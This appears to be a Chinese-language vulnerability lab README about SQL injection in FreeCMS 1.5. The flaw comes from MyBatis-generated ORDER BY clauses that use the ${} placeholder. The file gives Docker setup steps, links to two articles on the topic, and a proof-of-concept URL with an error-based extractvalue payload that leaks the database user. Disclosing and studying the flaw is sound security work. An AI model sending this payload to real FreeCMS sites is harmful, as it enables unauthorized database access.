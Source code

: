 

## 测试环境

编译及运行环境：

```
docker-compose build
docker-compose up -d
```


## mybatis sql注入问题

[Mybatis框架下SQL注入漏洞面面观](https://mp.weixin.qq.com/s?__biz=MjM5OTk2MTMxOQ==&mid=2727827368&idx=1&sn=765d0835f0069b5145523c31e8229850&mpshare=1&scene=1&srcid=0926a6QC3pGbQ3Pznszb4n2q#rd)
[审计mybatis的sql注入](http://xdxd.love/2016/03/14/%E5%AE%A1%E8%AE%A1mybatis%E7%9A%84sql%E6%B3%A8%E5%85%A5/)


##  freecms 最新版 1.5 存在的sql注入漏洞

使用mybatis框架，一般并不会手动去写每一个xml配置，而是使用插件自动生成，而插件生成的xml中，默认情况下order by使用的是$占位符。如果应用层不做用户输入过滤，是存在sql注入漏洞的。

默认的xml配置：

![](img/01.png)
![](img/02.png)


## POC

访问 http://127.0.0.1:8080/register.jsp 注册一个普通用户。然后通过http://127.0.0.1:8080/mlogin.jsp登录。

访问：http://127.0.0.1:8080/member/creditlog_list.do?order=extractvalue(1,concat(0x7C,(select%20user()),0x7C))

![](img/03.png)
